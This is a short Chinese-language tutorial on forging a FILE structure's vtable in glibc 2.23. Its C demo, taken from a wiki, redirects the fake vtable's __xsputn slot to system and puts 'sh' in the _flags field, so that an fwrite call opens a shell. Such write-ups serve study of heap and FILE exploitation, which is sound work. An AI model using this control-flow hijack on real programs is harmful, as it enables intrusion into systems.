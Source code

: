 # vtable伪造

​       libc2.23 版本下，位于 libc 数据段的 vtable 是不可以进行写入的，在之前的版本的利用就不叙述了。虽然libc 数据段的 vtable不可以写入，但是可以通过伪造vtable并且修改_IO_FILE_plus->vtable这个指针来实现劫持程序流程。

直接用wiki上的例子

```c
#define system_ptr 0x7ffff7a523a0;
#include<stdio.h>
#include<stdlib.h>
#include<string.h>
int main(void)
{
    FILE *fp;
    long long *vtable_addr,*fake_vtable;

    fp=fopen("123.txt","rw");
    fake_vtable=malloc(0x40);

    vtable_addr=(long long *)((long long)fp+0xd8);     //vtable offset

    vtable_addr[0]=(long long)fake_vtable;

    memcpy(fp,"sh",3);

    fake_vtable[7]=system_ptr; //xsputn

    fwrite("hi",2,1,fp);
}
```

**vtable 中的函数调用时会把对应的\_IO\_FILE\_plus 指针作为第一个参数传递，也就是\_flags成员变量。**

这里伪造fp的vtable指针，使其指向我们伪造好的区域，fwrite会调用\_IO\_jump\_t中偏移为0x38的指针（\__xsputn），让它指向system函数，而fp->\_flags上直接放“sh”字符串。运行fwrite时实际上去执行system("sh")。（gdb调试运行，不可直接运行，要不然system的地址不正确）

![1](1.png)


注：stdin\stdout\stderr这些\_IO\_FILE\_plus结构体变量也是可以被修改的，这些流在 printf\scanf 等函数中就会被使用到。在 libc2.23 之前，这些 vtable 是可以写入并且不存在其他检测的。
